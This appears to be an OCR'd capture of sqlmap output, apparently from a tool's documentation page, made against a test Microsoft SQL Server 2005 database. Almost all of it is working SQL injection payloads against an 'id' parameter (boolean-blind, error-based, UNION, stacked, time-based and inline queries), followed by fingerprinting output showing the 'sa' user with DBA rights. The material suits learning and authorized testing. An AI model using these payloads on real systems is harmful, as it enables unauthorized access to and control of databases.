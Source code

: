 ```shell
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2986=2986

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause
    Payload: id=1 AND 4847=CONVERT(INT,(CHAR(58)+CHAR(118)+CHAR(114)+CHAR(100)+C
HAR(58)+(SELECT (CASE WHEN (4847=4847) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58
)+CHAR(111)+CHAR(109)+CHAR(113)+CHAR(58)))

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CHAR(58)+CHAR(118)+CHAR(114)+CHAR(1
00)+CHAR(58)+CHAR(70)+CHAR(79)+CHAR(118)+CHAR(106)+CHAR(87)+CHAR(101)+CHAR(119)+
CHAR(115)+CHAR(114)+CHAR(77)+CHAR(58)+CHAR(111)+CHAR(109)+CHAR(113)+CHAR(58)--

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries
    Payload: id=1; WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind
    Payload: id=1 WAITFOR DELAY '0:0:5'--

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: id=(SELECT CHAR(58)+CHAR(118)+CHAR(114)+CHAR(100)+CHAR(58)+(SELECT
(CASE WHEN (6382=6382) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(58)+CHAR(111)+CHAR
(109)+CHAR(113)+CHAR(58))
---
web server operating system: Windows XP
web application technology: ASP, Microsoft IIS 5.1
back-end DBMS operating system: Windows XP Service Pack 2
back-end DBMS: Microsoft SQL Server 2005
banner:
---
Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86)
    Oct 14 2005 00:33:37
    Copyright (c) 1988-2005 Microsoft Corporation
    Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2)
---
current user:    'sa'
current database:    'testdb'
current user is DBA:    True

[*] shutting down at xx:xx:52
```
